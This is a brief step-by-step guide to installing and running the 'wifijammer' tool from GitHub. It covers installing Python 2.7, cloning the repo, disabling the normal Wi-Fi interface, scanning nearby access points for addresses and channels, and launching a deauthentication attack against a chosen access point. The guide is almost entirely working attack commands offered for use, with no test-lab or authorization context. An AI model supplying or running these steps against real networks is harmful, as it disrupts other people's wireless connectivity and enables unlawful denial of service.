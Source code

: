# Source: https://github.com/DanMcInerney/wifijammer

## Install python2.7
<code>
sudo apt install python2
</code>
## Clone Repo
<code>
git clone https://github.com/DanMcInerney/wifijammer
cd wifijammer
</code>
## Connect supported wifi device

## Deactivate normal interface

### a) Disable current wifi
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) Take normal iface down
List interfaces with:
<code>
ip a
</code>

Take down normal interface:
<code>
ifconfig wlp0 down
</code>
## List Accesspoints
<code>
sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
</code>
## Start deauthenticating with

<code>
sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List -world
</code>


